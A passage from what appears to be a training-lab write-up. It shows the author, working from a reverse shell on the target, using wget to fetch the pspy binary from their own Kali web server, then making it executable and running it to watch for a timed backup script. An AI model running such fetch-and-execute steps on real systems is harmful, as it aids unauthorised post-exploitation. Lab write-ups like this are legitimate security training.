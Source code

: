 
<img src="/assets/images/tcm-academy/academy-33.png">

Using pspy to Confirm the Timer 
To confirm whether the backup.sh script was running on a timer, I decided to use the pspy tool. pspy is useful for detecting processes running on a system without requiring root privileges.

<a href="https://github.com/DominicBreuker/pspy">pspy GitHub</a>

I downloaded pspy to my Kali machine, in the same directory where I had previously hosted the web server.  From the reverse shell connection to the target machine, I requested a download of it to the target using the wget command:
Using pspy to monitor for script execution:

```bash
wget http://192.168.17.134/pspy64
chmod +x pspy64
./pspy64
```

<img src="/assets/images/tcm-academy/academy-35.png">


<img src="/assets/images/tcm-academy/academy-36.png">
